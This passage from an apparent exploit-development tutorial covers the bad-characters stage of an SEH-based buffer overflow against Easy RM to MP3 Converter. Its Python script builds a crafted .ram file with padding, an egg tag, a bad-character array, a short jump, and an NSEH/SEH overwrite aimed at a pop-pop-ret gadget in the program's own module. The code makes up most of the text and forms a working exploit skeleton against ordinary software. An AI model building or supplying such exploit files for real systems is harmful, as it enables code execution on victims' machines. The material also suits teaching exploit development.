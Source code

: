 The offset has been found, execution has been granted, what's next? Bad characters.

## Bad Characters

The INC3 bytes are removed by a chain of bad characters:

```term_session
import struct

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

sjmp = "\xE9\x73\xEC\xFF\xFF"
nseh = "\xEB\xF9\x90\x90"
seh = "\x3C\x56\x40" # 0x0040563c : pop ebx # pop ebp # ret 0x04 | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] 
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)

buffer = "A" * 44000 + "w00tw00t" + badchars  + "A" * (45388 - 44000 - 205 - 8) + sjmp + nseh + seh

f = open ("finding2.ram", "w")
f.write(buffer)
f.close()
```

In addition, a small tag (w00tw00t) was added, such will help to find the bad characters when it's time to compare with mona.

Bad characters are generated with mona:
